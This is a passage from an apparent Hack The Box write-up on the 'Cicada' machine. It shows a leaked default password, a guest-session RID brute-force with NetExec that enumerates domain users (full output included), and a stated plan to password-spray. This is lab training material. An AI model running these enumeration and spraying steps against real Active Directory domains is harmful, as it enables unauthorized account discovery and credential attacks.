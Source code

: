 "Notice from HR.txt": 
```
Dear new hire!

Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.

Your default password is: Cicada$M6Corpb*@Lp#nZp!8
[...]
```

so now we have a password without actually knowing any AD user, tried kerbrute and the only users found were `Guest`,
`Administrator` which is typical

looked around and i found out about rid bruteforcing using `NetExec`, in a nutshell in AD each user, group, computer
are considered objects and every object has its own Relative Identefier(RID) and Security Identifier(SID) 

Enumerating Usernames using rid bruteforcing:
```
┌─[rar@parrot]─[~/HTB/cicada]
└──╼ $nxc smb cicada.htb -u 'guest' -p '' --rid-brute
SMB         10.129.81.230   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
10.129.81.230   445    CICADA-DC        [+] cicada.htb\\guest: 
10.129.81.230   445    CICADA-DC        498: CICADA\\Enterprise Read-only Domain Controllers (SidTypeGroup)
10.129.81.230   445    CICADA-DC        500: CICADA\\Administrator (SidTypeUser)
10.129.81.230   445    CICADA-DC        501: CICADA\\Guest (SidTypeUser)
10.129.81.230   445    CICADA-DC        502: CICADA\\krbtgt (SidTypeUser)
10.129.81.230   445    CICADA-DC        512: CICADA\\Domain Admins (SidTypeGroup)
10.129.81.230   445    CICADA-DC        1103: CICADA\\Groups (SidTypeGroup)
10.129.81.230   445    CICADA-DC        1104: CICADA\\john.smoulder (SidTypeUser)
10.129.81.230   445    CICADA-DC        1105: CICADA\\sarah.dantelia (SidTypeUser)
10.129.81.230   445    CICADA-DC        1106: CICADA\\michael.wrightson (SidTypeUser)
10.129.81.230   445    CICADA-DC        1108: CICADA\\david.orelious (SidTypeUser)
10.129.81.230   445    CICADA-DC        1109: CICADA\\Dev Support (SidTypeGroup)
10.129.81.230   445    CICADA-DC        1601: CICADA\\emily.oscars (SidTypeUser)
```

Users Found ! 
```
Administrator
guest
david.orelious
michael.wrightson
sarah.dantelia
john.smoulder
emily.oscars
```

now that we have the usernames we can password spray 
